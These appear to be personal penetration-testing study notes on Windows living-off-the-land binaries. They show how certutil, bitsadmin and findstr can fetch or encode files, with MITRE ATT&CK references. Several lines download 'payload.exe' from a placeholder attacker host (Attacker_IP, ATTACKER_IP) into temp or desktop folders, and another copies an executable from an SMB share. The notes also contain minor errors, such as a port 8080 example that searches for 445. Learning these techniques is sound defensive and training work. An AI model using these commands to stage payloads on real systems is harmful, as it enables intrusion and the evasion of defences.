 ## Table of Contents

- [certutil.exe to download a file from an attacker's web server and store it in the Window's temporary folder #windows #certutil #download #exiltrate](#certutil.exe to\download\a\file\from\an\attacker's\web\server\and\store\it\in\the\Window's\temporary\folder\#windows\#certutil\#download\#exiltrate)
      - [ used as an encoding tool where we can encode files](# used\as\an\encoding\tool\where\we\can\encode\files)
- [BITSAdmin](#bitsadmin)
- [FindStr](#findstr)
          - [Check whether port 8080 is open on our machine then pipe the result of netstat to find that port as follows:](#Check\whether\port\8080\is\open\on\our\machine\then\pipe\the\result\of\netstat\to\find\that\port\as\follows:)
          - [Unintended way using findstr to download remote files from smb shared folders](#Unintended\way\using\findstr\to\download\remote\files\from\smb\shared\folders)
    - [Examples](#Examples)
      - [1. Downloading an Executable from a Remote SMB Share](#1.\Downloading\an\Executable\from\a\Remote\SMB\Share)

 #certutil #windows #pentest #LivingOffTheLand #LoL 
**Certutil** is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components.

the tool's normal use is to retrieve certificate information. However, people found that certutil.exe could transfer and encode files unrelated to certification services. *The MITRE ATT&CK framework identifies this technique as* **Ingress tool transfer** ([T1105](https://attack.mitre.org/techniques/T1105/)).



#### certutil.exe to download a file from an attacker's web server and store it in the Window's temporary folder #windows #certutil #download #exiltrate
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe \ C:\Windows\Temp\payload.exe

-urlcache : dispaly URL; enables the URL use in cmd
-split -f : split and force fetching files from URL
```

####  used as an encoding tool where we can encode files
```powershell
certutil -encode payload.exe Encoded-payload.txt
```
[CertUtil Documentaiton](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)



# BITSAdmin
	Background Intelligent Transfer Service (BITS) 

- Sysadmin too to create, download, or upload BITS jobs and check their progess. BITS is low-bandwidth and asynchronous method to download and upload files form HTTP webservers and SMB servers.
[BITS Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin)
ATT&CK [T1197](https://attack.mitre.org/techniques/T1197/) page.
#bitsadmin 
#BITS
	Example:
```powershell
C:\Users\Autist>bitsadmin.exe /transfer /Download /priority Foreground http://ATTACKER_IP/payload.exe C:\Users\Autist\Desktop\payload.exe
```
	/Transfer | use the transfer option  
	/Download | specifying transfer using download type  
	/Priority | setting the priority of the job to be running in the foreground


# FindStr

	Find text and string patters in files. 

Example:
###### Check whether port 8080 is open on our machine then pipe the result of netstat to find that port as follows:
```powershell
 netstat -an| findstr "445"
```


###### Unintended way using findstr to download remote files from smb shared folders
```powershell
C:\Users\thm>findstr /V dummystring \\MACHINENAME\SharedFoled\test.exe > c:\Windows\temp\test.exe
```
	/V : prints only lines that do not contain 'dummystring'
	\\MachineName\SharedFolder\text.exe : specifies the SMB share and file to read from
	> c:\Windows\Temp\test.exe: Redirects the output to a local file.

### Examples

#### 1. Downloading an Executable from a Remote SMB Share

Suppose you have an executable `my_program.exe` in an SMB share `\\RemoteMachine\SharedFiles`.

```powershell
findstr /V non_existent_string \\RemoteMachine\SharedFiles\my_program.exe > C:\LocalFolder\my_program.exe
```











